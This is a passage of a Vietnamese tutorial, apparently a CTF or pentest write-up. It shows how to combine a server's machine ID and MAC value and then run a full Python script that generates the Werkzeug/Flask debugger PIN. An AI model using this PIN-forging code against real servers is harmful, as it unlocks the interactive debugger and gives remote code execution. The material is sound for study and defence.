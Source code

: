 Cuối cùng, bạn lấy chuỗi vừa lấy được đem đi thêm vào đằng sau của chuỗi `Machine ID` mà tôi bảo bạn lưu vào nháp ở trên và bạn sẽ được chuỗi có dạng như sau:
```
579cb1c1-d66e-4bff-8f9d-630242ce704de58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d
```

Thế là ta đã xong phần lấy giá trị của các biến rồi, bây giờ ta sẽ dùng code python sau và thay từng giá trị vào và ta sẽ được code tạo ra mã `PIN DEBUG` của Server:
```python
import hashlib
from itertools import chain
probably_public_bits = [
        'user',# username
        'flask.app',# modname
        "Flask",# getattr(app, '__name__', getattr(app.__class__, '__name__'))
        '/usr/local/lib/python3.10/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
        '2485378220034',# str(uuid.getnode()),  /sys/class/net/ens33/address
        '579cb1c1-d66e-4bff-8f9d-630242ce704de58d9ff458b35c246e31a7191e1b98df30b4579dfea0639cfdfae3514465a36d'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1() # sometimes will be h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
        if not bit:
                continue
        if isinstance(bit, str):
                bit = bit.encode('utf-8')
        h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num
print(rv)
```
Bạn chỉ cần thay những giá trị bạn vừa tìm được vào code trên thôi.
